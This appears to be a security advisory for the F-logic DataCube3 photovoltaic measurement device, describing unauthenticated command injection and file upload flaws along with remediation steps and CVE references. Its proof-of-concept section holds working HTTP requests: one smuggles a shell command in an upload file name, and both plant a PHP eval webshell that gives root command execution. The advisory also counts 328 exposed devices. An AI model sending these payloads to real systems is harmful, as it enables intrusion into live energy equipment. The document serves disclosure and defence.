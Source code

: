 > Author: Ph0Jav7
> Keywords：PHP, DataCube3, Shell Code Injection

# Product Description

The DataCube3 from [F-logic](https://www.f-logic.jp/) is a compact terminal measurement system for photovoltaic power generation systems.

![product](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503010448.png)

# Affected Products

All F-logic DataCube3 measurement system version 1.0.

![product-version](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503010620.png)

# Vulnerability Summary

## Shell Code Injection

DataCube3 is affected by a command execution injection vulnerability, where file upload allows unauthenticated malicious actors to perform command injection attacks by manipulating the file name. Successful exploitation of the vulnerability could allow an attacker to upload a file with a PHP webshell leading to an RCE (Remote Code Execution) vulnerability. This issue affects all DataCube3 appliances version 1.0.

## Unrestricted File Upload

DataCube3 is affected by unrestricted file uploads that allow unauthenticated malicious actors to upload dangerous types of files by manipulating file extensions. Successful exploitation could allow an attacker to upload files that expose a `PHP Webshell` leading to an `RCE(Remote Code Execution)` vulnerability. This issue affects all DataCube3 appliances version 1.0.

# Reproduction Steps

## Shell Code Injection

There is a command injection vulnerability in `/admin/transceiver_schedule.php` that does not require authentication. The uploaded file name is not filtered and the file name is concatenated during execution, so command injection can be performed through this vulnerability. In the example, we will show how to exploit the command injection in the file name and write a minimal PHP WebShell.

![burpsuite](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503012751.png)

Then visit `/admin/flag.php` and you will find that the webshell has been written successfully.

![shell](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503012943.png)

## Unrestricted File Upload

There is a file upload point at `/admin/transceiver_schedule.php` to upload a CSV file. This function does not strictly filter the file, allowing us to upload any file on the device. In the example, it will show how to upload a minimal `PHP Webshell` named `flag.php`, which contains PHP code and allows us to send Linux commands to the server.

![upload](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503105430.png)

Now you can access the page `/admin/data/flag.php` and execute the PHP script, which will then send linux commands directly to the server with `root` privileges.

![upload-shell](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503105626.png)

# POC

## Shell Code Injection

```http
POST /admin/transceiver_schedule.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------37436279464137825937312543375
Content-Length: 531
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------37436279464137825937312543375
Content-Disposition: form-data; name="upload_file"; filename="ebara_new.csv; echo '<?php @eval($_POST[x])?>' > flag.php;"
Content-Type: application/octet-stream

test

-----------------------------37436279464137825937312543375
Content-Disposition: form-data; name="usb_schedule"

%e5%9b%ba%e5%ae%9a%e3%82%b9%e3%82%b1%e3%82%b8%e3%83%a5%e3%83%bc%e3%83%ab%e3%82%a4%e3%83%b3%e3%83%9d%e3%83%bc%e3%83%88
-----------------------------37436279464137825937312543375--
```
## Unrestricted File Upload

```http
POST /admin/transceiver_schedule.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------37436279464137825937312543375
Content-Length: 422
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------37436279464137825937312543375
Content-Disposition: form-data; name="upload_file"; filename="flag.php"
Content-Type: application/vnd.ms-excel

<?php @eval($_POST[x]);?>

-----------------------------37436279464137825937312543375
Content-Disposition: form-data; name="usb_schedule"

%e5%9b%ba%e5%ae%9a%e3%82%b9%e3%82%b1%e3%82%b8%e3%83%a5%e3%83%bc%e3%83%ab%e3%82%a4%e3%83%b3%e3%83%9d%e3%83%bc%e3%83%88
-----------------------------37436279464137825937312543375--

```

# Recommendation Fixes / Remediation

## Shell Code Injection

Escape command injection splicing and ensure that all requests sent to the backend are authenticated.

## Unrestricted File Upload

Make sure to set very strict file storage location, better file name sanitization logic, file content validation rules.

# Vulnerable Devices Found

As of 2 May 2024, there were 328 F-logic DataCube3 devices exposed to the internet and were affected by the vulnerabilities discovered.

![fofa](https://github.com/Yang-Nankai/Vulnerabilities/blob/main/Pasted%20image%2020240503013439.png)

# References

[https://www.f-logic.jp](https://www.f-logic.jp/)

[https://www.f-logic.jp/pdf/support/manual_product/manual_product_datacube3_ver1.0_sc.pdf](https://www.f-logic.jp/pdf/support/manual_product/manual_product_datacube3_ver1.0_sc.pdf)

# CVE Lists

- [CVE-2024-34852](https://www.cve.org/CVERecord?id=CVE-2024-34852)
- [CVE-2024-34854](https://www.cve.org/CVERecord?id=CVE-2024-34854)

